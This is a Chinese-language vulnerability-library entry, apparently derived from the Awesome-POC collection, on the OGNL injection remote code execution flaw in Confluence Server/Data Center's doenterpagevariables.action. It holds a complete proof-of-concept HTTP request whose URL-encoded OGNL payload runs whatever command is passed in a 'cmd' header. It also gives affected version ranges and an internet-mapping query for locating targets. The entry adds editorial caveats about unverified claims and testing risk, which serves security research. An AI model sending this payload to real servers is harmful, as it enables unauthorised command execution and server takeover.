


# Confluence Server/Data Center doenterpagevariables OGNL

## 条目说明

- 对象与具体问题：Confluence Server/Data Center；doenterpagevariables OGNL
- 版本、配置及部署条件：列多个无分支约束<阈值有歧义；JS引擎条件
- 认证与权限前提：声明未认证但含JSESSIONID
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 版本五行均<会错误并集扩大，应标各维护分支
- Cookie与匿名声明需解释配置前提，命令执行载荷非无害检查
- Atlassian重复词/空图片噪声，缺修复来源

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

Atlassian Confluence 存在远程代码执行漏洞，攻击者在无需认证，即可构造恶意请求，造成OGNL表达式注入，从而执行任意代码，控制服务器。

### 漏洞影响

```
Atlassian Atlassian Confluence < 7.4.11
Atlassian Atlassian Confluence < 7.11.6
Atlassian Atlassian Confluence < 7.13.0
Atlassian Atlassian Confluence < 6.13.23
Atlassian Atlassian Confluence < 7.12.5
```

### 网络测绘

```
app="ATLASSIAN-Confluence"
```

### 漏洞复现

登录页面



发送请求包

```http
POST /pages/doenterpagevariables.action HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 599
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=3E654B6F4ADDF325CA2203596BD0115C
cmd: id
    
queryString=%5Cu0027%2B%23%7B%5Cu0022%5Cu0022%5B%5Cu0022class%5Cu0022%5D.forName%28%5Cu0022javax.script.ScriptEngineManager%5Cu0022%29.newInstance%28%29.getEngineByName%28%5Cu0022js%5Cu0022%29.eval%28%5Cu0022var+c%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getRequest%28%29.getHeader%28%5Cu0027cmd%5Cu0027%29%3Bvar+x%3Djava.lang.Runtime.getRuntime%28%29.exec%28c%29%3Bvar+out%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getResponse%28%29.getOutputStream%28%29%3Borg.apache.commons.io.IOUtils.copy%28x.getInputStream%28%29%2Cout%29%3Bout.flush%28%29%3B%5Cu0022%29%7D%2B%5Cu0027
```

> 请求长度说明：原资料 Content-Length 为 599；保留原始标头；其数值未据实际请求体重新计算或验证。




---

> 来源：Threekiii/Awesome-POC
